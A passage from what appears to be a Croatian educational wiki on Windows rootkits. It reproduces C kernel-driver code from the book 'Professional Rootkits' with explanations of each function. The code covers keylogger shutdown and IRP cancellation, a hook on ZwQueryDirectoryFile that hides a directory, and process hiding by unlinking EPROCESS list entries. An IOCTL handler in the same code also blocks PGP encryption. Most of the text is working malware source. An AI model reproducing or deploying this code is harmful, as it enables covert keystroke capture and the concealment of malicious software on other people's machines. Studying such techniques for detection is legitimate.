// delete keyboard device
IoDeleteDevice( *ppNewDevice );
// terminate logging thread
keyboardData.terminateFlag = TRUE;
KeReleaseSemaphore( &keyboardData.keySemaphore, 0, 1, TRUE);
KeWaitForSingleObject( keyboardData.threadObject,
Executive,
KernelMode,
FALSE,
NULL);
// close key log file
ZwClose( keyboardData.hLogFile );
DbgPrint("comint32: Log thread stopped");
}
void OnCancel( IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp )
{
PIRP newIrp;
KIRQL irql;
PLIST_ENTRY listEntry;
int found = FALSE;
IoSetCancelRoutine( Irp, NULL );
IoReleaseCancelSpinLock( Irp->CancelIrql );
// remove associated irp
KeAcquireSpinLock( &keyboardData.irpLock, &irql );
{
listEntry = keyboardData.irpList.Flink;
while( (listEntry != &Irp->Tail.Overlay.ListEntry)
&& (listEntry != &keyboardData.irpList) )
{
listEntry = listEntry->Flink;
}
found = ( listEntry == &Irp->Tail.Overlay.ListEntry );
if( found )
RemoveEntryList( &Irp->Tail.Overlay.ListEntry );
}
KeReleaseSpinLock( &keyboardData.irpLock, irql );
// process cancellation
Irp->IoStatus.Status = STATUS_CANCELLED;
Irp->IoStatus.Information = 0;
newIrp = (PIRP)Irp->Tail.Overlay.DriverContext[0];
IoCompleteRequest( Irp, IO_KEYBOARD_INCREMENT );
if( newIrp )
IoCancelIrp( newIrp );
return;
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 8
U nastavku ćemo pojasniti najvažnije funkcije ovog programskog koda. OnKeyboardRead funkcija se poziva kada se detektira zahtjev za čitanje tipkovnice. Ova funkcija kreira novi IRP te sačuva IRP koji smo presreli zatim taj novo kreirani IRP pošalje dalje na stog upravljačkih programa tipkovnice. Funkcija OnReadCompletion se poziva od najnižeg upravljačkog programa tipkovnice kada se detektira pritisnuta tipka. Funkcija provjeri podatke o pritisnutoj tipki te je dodaje u povezanu listu koju dijele povratni poziv rutine tipkovnice i dretva za logiranje. GetKey funkcija parsira podatke o pritisnutoj tipki koji su dobiveni od dretve koja služi za praćenje pritisnutih tipki. KEYBOARD_STRUCT i keyboardData služe za praćenje podataka o pritisnutoj tipki. To je vrlo jednostavna parser funkcija bez mogućnosti da prepozna Caps Lock, Num Lock ili druge specijalne tipke.
Funkcija InitializeLogThread se poziva od funkcije StartKeyLogger da bi pokrenula dretvu koja će pokrenuti operacije pasivne razine da bi se mogle obavljati ulazno izlazne operacije.
KeyLoggerThread jeste dretva koja pokreće operacije pasivne razine da bi se mogle obavljati ulazno izlazne operacije. Funkcija StartKeylogger se poziva od funkcije insertKeyboardFilter koja se pak poziva od funkcije DriverEntry kada je rootkit učitan. Ta funkcija obavlja sve inicijalizacije potrebne za praćenje unosa.
Funkcija StopKeylogger se poziva od funkcije onUnload kada se rootkit iščitava. Ubacivanje registrirane završene rutine povećava težinu ove operacije. Registrirana završena rutina mora biti gotova ili prekinuta prije nego što se rootkit iščita da bi se spriječio pad sistema. Funkcija OnCancel se poziva da bi se maknuo trenutni IRP sa stoga upravljačkih programa tipkovnice.
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Sakrivanje
Sakrivanje je jedno od definitivnih kriterija koje obilježavaju rookit. Neke od mogućnosti sakrivanja su sakrivanje komunikacijskih veza niske razine, sakrivanje filtera upravljačkih programa uređaja, sakrivanje ubacivanja procesa, sakrivanje unosa upravljačkih programa uređaja itd. Do sada smo izbjegavali metode sakrivanja koje se najlakše mogu detektirati specifično datoteke, ključeve registra te sakrivanje procesa no postoje mnoga okruženja gdje detekcija nije opcija te je sakrivanje od najveće važnosti. U takvim okruženjima bilo kakav način sakrivanja može biti upotrjebljen da bi se spriječilo slučajno ili namjerno petljanje.
Npr. rootkit koji prati promet sa USB-a i čuva krajnje korisnike od slučajnog kopiranja podataka od neke stranke na njihove memorijske ključeve će otkriti svoju prisutnost kada god je politika prijenosa pređena. Rootkiti u takvoj kategoriji se oslanjaju na sistem administratore da bi sadržali svoje operacije i samo trebaju spriječiti krajnje korisnike od micanja tog softvera. U takvim okruženjima bi trebalo biti jasno da pozivanje spajanja na sistemske tablice da bi se sakrili direktoriji, ključevi registra te procesi je održiva opcija. Ono što ćemo sljedeće pokazati je primjer skrivanja direktorija te primjer skrivanja procesa.
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Skrivanje direktorija
Ispod možemo vidjeti implementaciju spajanja u datoteci hookManager.c.
NTSTATUS NewZwQueryDirectoryFile(
IN HANDLE hFile,
IN HANDLE hEvent OPTIONAL,
IN PIO_APC_ROUTINE IoApcRoutine OPTIONAL,
IN PVOID IoApcContext OPTIONAL,
OUT PIO_STATUS_BLOCK pIoStatusBlock,
OUT PVOID FileInformationBuffer,
IN ULONG FileInformationBufferLength,
IN FILE_INFORMATION_CLASS FileInfoClass,
IN BOOLEAN bReturnOnlyOneEntry,
IN PUNICODE_STRING PathMask OPTIONAL,
IN BOOLEAN bRestartQuery
)
{
NTSTATUS status;
status = OldZwQueryDirectoryFile(
hFile,
hEvent,
IoApcRoutine,
IoApcContext,
pIoStatusBlock,
FileInformationBuffer,
FileInformationBufferLength,
FileInfoClass,
bReturnOnlyOneEntry,
PathMask,
bRestartQuery);
if( NT_SUCCESS( status ) && (FileInfoClass == 3) )
{
BOOL isLastDirectory;
DirEntry* pLastDirectory = NULL;
DirEntry* pThisDirectory = (DirEntry*)FileInformationBuffer;
// for each directory entry in the list
do
{
isLastDirectory = !( pThisDirectory->dwLenToNext );
// compare with g_hiddenDirectoryName
if( RtlCompareMemory( (PVOID)&pThisDirectory->suName[ 0 ],
(PVOID)&g_hiddenDirectoryName[ 0 ],
HIDDEN_DIR_NAME_LENGTH ) == HIDDEN_DIR_NAME_LENGTH )
{
if( isLastDirectory )
{
// return STATUS_NO_MORE_FILES if the hidden
// directory is the only directory in the list
// else set the previous directory to end-of-list
// if hidden directory is at the end of the list
if( pThisDirectory == (DirEntry*)FileInformationBuffer )
status = 0x80000006;
else
pLastDirectory->dwLenToNext = 0;
break;
}
else
{
// copy remainder of directory list into this location
// to eliminate this directory entry from the list
int offset = ((ULONG)pThisDirectory) - (ULONG)FileInformationBuffer;
int size = (DWORD)FileInformationBufferLength –
offset - pThisDirectory->dwLenToNext;
RtlCopyMemory( (PVOID)pThisDirectory,
(PVOID)((char*)pThisDirectory + pThisDirectory->dwLenToNext ),
(DWORD)size );
continue;
}
}
pLastDirectory = pThisDirectory;
pThisDirectory = (DirEntry*)((char *)pThisDirectory +
pThisDirectory->dwLenToNext );
} while( !isLastDirectory );
}
return( status );
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 9
Funkcija NewZwQueryDirectoryFile jednostavno provjerava definirano ime direktorija i ako ga pronađe briše pronađeni direktorij iz liste. Postoji 3 načina da se direktorij izbriše: ako je direktorij jedini unos u listi funkcija vraća STATUS_NO_MORE_FILES. Ako je direktorij zadnji unos u listi funkcija mijenja next-to-last funkciju da bi je označila kao kraj liste. I na kraju ako je direktorij bilo gdje drugdje ostatak liste direktorija se kopira te se prepiše sa listom skrivenog direktorija.
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Skrivanje procesa
Skrivanje procesa se obavlja tako da se specifični unos procesa izbriše iz povezane lista procesa isto kao što se rootkit briše iz lista upravljačkih programa uređaja. Implementaciju koju ćemo prikazati upotrebljava ID procesa da bi ga našli unutar povezane liste procesa i zatim namjestili pokazivače da bi izbrisali željeni unos procesa. Ovakav dizajn zahtjeva da proces kaže rootkitu svoj proces ID. Na svu sreću rootkit na kojem radimo već ima mehanizam lokalnog sučelja te će zbog toga implementacija ove funkcionalnosti zahtijevati malu modifikaciju postojećih datoteka, iako će nam trebati jedna nova datoteka da bismo testirali funkcionalnost skrivanja procesa. Ta datoteka se zove HideMe.c. Skrivanje procesa prikazano je na sljedećoj slici.
{kind=link}
Sljedeće ćemo prikazati najvažnije programske kodove potrebne za izvedbu skrivanja procesa. Datoteka HideMe.c prima svoj proces ID od operativnog sustava i šalje ga rootkitu kroz ulazno izlazni mehanizam o kojem se govorilo ranije.
//HideMe.c
#include <windows.h>
#include <stdio.h>
#include <conio.h>
#include "IoManager.h"
void main(int argc, char *argv[])
{
HANDLE deviceHandle;
GHOST_IOCTLDATA control = { 0 };
ULONG status = 0;
deviceHandle = CreateFile( GHOST_DEVICE_OPEN_NAME,
GENERIC_READ | GENERIC_WRITE,
0,
NULL,
OPEN_EXISTING,
FILE_ATTRIBUTE_NORMAL,
NULL);
if( deviceHandle == INVALID_HANDLE_VALUE )
{
printf ("Could not find MyDeviceDriver.\n");
}
else
{
control.processId = GetCurrentProcessId();
if( DeviceIoControl(deviceHandle,
GHOST_HIDE_COMMAND,
&control,
sizeof(control), // input
(PVOID)&control,
sizeof(control), // output
&status,
NULL ) )
printf ("MyDeviceDriver hiding this process (0x%x).\n",
control.processId );
else
printf ("DeviceIoControl failed.\n");
CloseHandle(deviceHandle);
}
printf ("Press any key to terminate this process..." );
getch();
printf ("\n" );
}
Došlo je do par dodataka u datoteci IoManager.c.
//IoManager.c
extern DWORD listOffset;
// used by GHOST_HIDE_COMMAND
DWORD findProcess ( DWORD targetProcessId )
{
int loop = 0;
DWORD eProcess;
DWORD firstProcess;
DWORD nextProcess;
PLIST_ENTRY processList;
if ( targetProcessId == 0 )
return 0;
// Get the process list
eProcess = (DWORD)PsGetCurrentProcess();
// Traverse the process list
firstProcess = *((DWORD*)(eProcess + (listOffset - 4)));
nextProcess = firstProcess;
for(;;)
{
if(targetProcessId == nextProcess)
{
// found the process
break;
}
else if( loop && (nextProcess == firstProcess) )
{
// circled without finding the process
eProcess = 0;
break;
}
else
{
// get the next process
processList = (LIST_ENTRY*)(eProcess + listOffset);
if( processList->Flink == 0 )
{
DbgPrint ("comint32: findProcess no Flink!");
break;
}
eProcess = (DWORD)processList->Flink;
eProcess = eProcess - listOffset;
nextProcess = *((DWORD*)(eProcess + (listOffset - 4)));
}
loop++;
}
return eProcess;
}
// Process commands from external applications
NTSTATUS OnDeviceControl( PFILE_OBJECT FileObject, BOOLEAN Wait,
PVOID InputBuffer, ULONG InputBufferLength,
PVOID OutputBuffer, ULONG OutputBufferLength,
ULONG IoControlCode, PIO_STATUS_BLOCK IoStatus,
PDEVICE_OBJECT DeviceObject )
{
GHOST_IOCTLDATA* pControlData;
DWORD eProcess;
PLIST_ENTRY processList;
IoStatus->Status = STATUS_SUCCESS;
IoStatus->Information = 0;
switch ( IoControlCode )
{
case GHOST_ON_OFF_COMMAND:
if(InputBufferLength >= sizeof(GHOST_IOCTLDATA))
{
pControlData = (GHOST_IOCTLDATA*)InputBuffer;
if(pControlData->command == GHOST_ON)
{
// block PGP encryption
allowEncryption = FALSE;
DbgPrint ("comint32: blocking encryption");
}
else
{
// allow PGP encryption
allowEncryption = TRUE;
DbgPrint ("comint32: allowing encryption");
}
}
return IoStatus->Status;
case GHOST_STATUS_COMMAND:
if(OutputBufferLength >= sizeof(GHOST_IOCTLDATA))
{
pControlData = (GHOST_IOCTLDATA*)OutputBuffer;
if(allowEncryption == TRUE)
pControlData->command = GHOST_OFF;
else
pControlData->command = GHOST_ON;
}
IoStatus->Information = sizeof(GHOST_IOCTLDATA);
return IoStatus->Status;
case GHOST_HIDE_COMMAND:
if ( InputBufferLength >= sizeof(GHOST_IOCTLDATA) )
{
pControlData = (GHOST_IOCTLDATA*)InputBuffer;
eProcess = findProcess( pControlData->processId );
if( eProcess != 0 )
{
// Hide the process
processList = (LIST_ENTRY *)(eProcess + listOffset );
if( processList && processList->Flink && processList->Blink)
{
*((DWORD *)processList->Blink) = (DWORD) processList->Flink;
*((DWORD *)processList->Flink + 1) = (DWORD) processList->Blink;
processList->Flink = (LIST_ENTRY *)&(processList->Flink);
processList->Blink = (LIST_ENTRY *)&(processList->Flink);
}
else
{
DbgPrint("comint32: Error finding process 0x%x",
pControlData->processId);
}
}
else
{
DbgPrint("comint32: Could not find process 0x%x",
pControlData->processId);
}
}
return IoStatus->Status;
default:
IoStatus->Information = 0;
IoStatus->Status = STATUS_NOT_SUPPORTED;
return IoStatus->Status;
}
return STATUS_SUCCESS;
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 9
Funkcija findProcess prima ID procesa i vraća unos procesa za taj proces iz povezane liste procesa. Nakon što vratimo unos procesa za taj proces ID koristeći findProcess, komanda hide miče unos procesa iz povezane liste procesa. Slično kao i povezana lista sa upravljačkim programima uređaja ova specifična povezana lista procesa nije korištena da bi alocirala vrijeme procesiranja za individualni proces, tako procesi mogu biti maknuti iz liste bez mogućnosti da odugovlače. Za razliku od povezane liste upravljačkih programa uređaja postoji mogućnost da će unos procesa biti referenciran nakon što je maknut iz liste zato pokazivači na mjestu maknutog unos procesa pokazuju na sami sebe tako da nebi došlo mogućeg pada sistema.
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Literatura
http://www.cert.hr/sites/default/files/NCERT-PUBDOC-2010-01-287.pdf
http://en.wikipedia.org/wiki/Rootkit
Ric Vieler - Proffesional Rootkits, Wrox Press 2007.
Greg Hoglund, James Butler - Rootkits: Subverting the Windows kernel, Addison Wesley Professional 2005.
--Filip.sostarec 23:59, 20. siječnja 2013. (CET)